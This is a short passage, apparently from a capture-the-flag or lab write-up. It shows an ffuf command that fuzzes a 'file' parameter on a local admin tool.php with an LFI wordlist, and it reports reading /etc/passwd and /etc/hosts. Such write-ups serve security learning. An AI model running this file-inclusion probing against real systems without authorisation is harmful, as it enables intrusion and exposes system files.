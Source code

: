 ![ffuf-get](../../assets/images/zerotrace/etcpasswd.png)

We use a [wordlist for LFI](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/refs/heads/main/LFI-WordList-Linux) from DragonJAR and can only obtain the files `/etc/passwd` and `/etc/hosts`.

```bash
ffuf -u "http://192.168.1.187/.admin/tool.php?file=FUZZ" -w ./LFI-WordList-Linux -fs 0
```
